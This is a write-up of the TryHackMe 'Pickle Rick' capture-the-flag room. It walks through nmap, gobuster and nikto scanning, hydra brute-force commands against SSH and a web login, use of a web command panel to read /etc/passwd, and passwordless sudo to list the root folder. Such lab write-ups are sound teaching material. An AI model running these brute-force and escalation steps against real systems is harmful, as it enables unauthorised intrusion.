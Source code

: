 ```yaml
---
title: "THM:picklerick"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/picklerick"
categories: [CTF, THM]
tags: [ctf,nmap,gobuster,dirbuster,nikto,hydra,robots.txt,sudo]
---
```

# THM:Pickle Rick

URL: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick) [Easy]

## Reconnaissance

Description of the room:

> This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -Pn xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

But then ultimately ran again using the `common.txt` dirb wordlist:

> `gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/robots.txt           (Status: 200) [Size: 17] 
```

*Also see: [gobuster.log](gobuster.log) and [gobuster_common.log](gobuster_common.log)*

### Running: `nikto`

Ran the following:

> `nikto -h xxx.xxx.xxx.xxx`

Found the following:

```python
+ /login.php: Admin login page/section found.
```

Also see: [nikto.log](nikto.log)

## Gaining Access

### Unprivileged Access

Unsuccessfully, I did try using the username found in the HTML source of the main `index.html` page with hydra to brute force SSH and the login page, but those didn't work. Those commands were:

#### SSH

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    ssh://xxx.xxx.xxx.xxx
```

*See: [hydra.ssh.log](hydra.ssh.log)*

#### HTTP

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    xxx.xxx.xxx.xxx http-post-form \
    "/login.php:username=^USER^&password=^PASS^&sub=Login:F=Invalid username or password."
```

*See: [hydra.web.log](hydra.web.log)*

---

Next, using the username found in the HTML source of the main `index.html` page, and using the potential password we found in `/robots.txt`, we try those credentials from the `/login.php` page, and find that we can log in and use a "Command Panel" which appears to let us run arbitrary commands, and see the results.

We can run `ls -la` to find:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

The contents of `Sup3rS3cretPickl3Ingred.txt` are the answer to the "first ingredient" needed for this room.

---

If we run `less /etc/passwd` we can see that there is a user account called `ubuntu`. Or, we can run `ls -la /home/` to see the users who have a home directory. With that, we can see a directory listing of that users' home directory with `ls -ls /home/rick` and get:

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

The contents of `second ingredients` are the answer to the "second ingredient" needed for this room.

### Privilege Escalation

With this access we have, we can also look in the `ubuntu` users home folder with `ls -la /home/ubuntu` and see:

```bash
total 40
drwxr-xr-x 4 ubuntu ubuntu 4096 Feb 10  2019 .
drwxr-xr-x 4 root   root   4096 Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu  320 Feb 10  2019 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Aug 31  2015 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .cache
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
-rw------- 1 ubuntu ubuntu 4267 Feb 10  2019 .viminfo
```

Since we have a `.sudo_as_admin_successful` file, we might assume we have some `sudo` privileges, so we run `sudo -l` to see:

```bash
Matching Defaults entries for www-data on ip-10-10-243-208.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-243-208.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow. So, the `ubuntu` account has `sudo` privilege and no password prompt. Let's use that to look in the `root` home folder with `sudo ls -la /root` to find:

```bash
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Feb  6 02:07 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

The contents of `3rd.txt` are the answer to the "final ingredient" needed to complete this room.

## Maintaining Access

None needed.

## Clearing Tracks

We never actually "hacked" into this server, so there is nothing to clear.

## Summary

Completed: [2022-02-05 21:56:08]